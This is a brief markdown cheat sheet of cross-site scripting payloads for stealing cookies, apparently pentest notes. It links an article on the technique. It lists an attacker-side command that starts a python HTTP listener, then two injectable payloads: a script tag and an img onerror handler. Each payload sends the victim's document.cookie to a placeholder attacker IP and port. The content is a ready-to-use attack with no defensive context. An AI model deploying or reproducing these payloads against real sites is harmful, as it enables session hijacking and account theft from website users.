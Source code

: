 # XSS Payloads




# Cookies
-<https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e>

Attacker:
```
python -m http.server [Attacker Port]
```

Target:
```
<script>var i=new Image(); i.src="http://[Attacker IP]:[Attacker Port]/?cookie="+btoa(document.cookie);</script>
```



<img src=x onerror=fetch('http://[Attacker IP]:[Attacker Port]	/?c='+document.cookie);>